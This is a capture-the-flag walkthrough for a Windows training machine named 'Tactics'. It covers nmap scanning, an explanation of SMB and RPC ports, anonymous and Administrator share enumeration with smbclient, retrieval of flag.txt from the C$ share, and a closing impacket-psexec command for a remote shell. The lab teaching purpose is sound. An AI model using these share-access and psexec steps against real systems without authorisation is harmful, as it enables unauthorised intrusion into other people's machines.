 # MACHINE - TACTICS

IP: 10.129.243.129

Type: Windows

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

- [1] 135/tcp msrpc **Microsoft Windows RPC**
- [2] 139/tcp netbios-ssn **Microsoft Windows netbios-ssn**
- [3] 445/tcp microsoft-ds?

> *Microsoft-DS* is the name given to port 445 which is used by SMB (Server Message Block).
> SMB is a network protocol used mainly in Windows networks for sharing resources (e.g.
> files or printers) over a network. It can also be used to remotely execute commands. SMB
> ports are generally 139 and 445. Port 139 is used by SMB dialects that  communicate
> over NetBIOS. It's a session layer protocol desiged to use in Windows operating systems over
> a local network. Port 445 is used to communicate outside the LAN. 

> *netbios-ssn*. The session service facilitates the connection-oriented communication
> between devices in LAN. When two devices need to exchange data, they established a 
> session using the session service. Hence, it provides services releated to the session
> layer of the OSI model allowing applications on separate computers to communicate over LAN.

> *Remote Procedure Call* service supports communication between Windows applications. Specifically,
> the service implement the RPC protocol - a low-level form of inter-process communication where
> a client process can make requests of a server process. 

---

## ENUMERATING SHARINGS

- SMB service is compose of *sharings* inside a *Workgroup*
- Some of these sharings are administrative accessible
- Some others can be accessed by everyone
- We can try to enumerate those sharings using the following command

```
$ smbclient -N -L //{IP}
```

- `-N` = No password required, `-L` = list all sharings
- However, we obtain a `NT_STATUS_ACCESS_DENIED`
- We can try to also give the administrator username, let's say 'Administrator'

```
$ smbclient -U Administrator -L //{IP}
```

- We obtain the following response

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

- As we can see there two interesting shares (do not consider `IPC$`)
- Let's see if we can obtain a session on one of them

```
$ smbclient -U Administrator \\\\{IP}\\ADMIN$
smb: \> ls
...
```

- There is nothing special, let's try with the other one (maybe `C` is the name of the disk)

```
$ smbclient -U Administrator \\\\{IP}\\C$
smb: \> ls

  $Recycle.Bin                      DHS        0  Wed Apr 21 17:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 20:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 17:17:12 2021
  pagefile.sys                      AHS 738197504  Wed Apr 24 17:33:24 2024
  PerfLogs                            D        0  Sat Sep 15 09:19:00 2018
  Program Files                      DR        0  Wed Jul  7 20:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 20:03:38 2021
  ProgramData                        DH        0  Tue Sep 13 18:27:53 2022
  Recovery                         DHSn        0  Wed Apr 21 17:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 17:34:04 2021
  Users                              DR        0  Wed Apr 21 17:23:18 2021
  Windows                             D        0  Wed Jul  7 20:05:23 2021

smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop> ls

 .                                  DR        0  Thu Apr 22 09:16:03 2021
  ..                                 DR        0  Thu Apr 22 09:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 17:23:32 2021
  flag.txt                            A       32  Fri Apr 23 11:39:00 2021

smb: \Users\Administrator\Desktop> get flag.txt
smb: \Users\Administrator\Desktop> exit
$ cat flag.txt
```

- We have found the flag
- Notice that we could also have used an alternative to get a shell on the system
- using `psexec` from the Impacket framework

```
$ sudo impacket-psexec Administrator@{IP}
```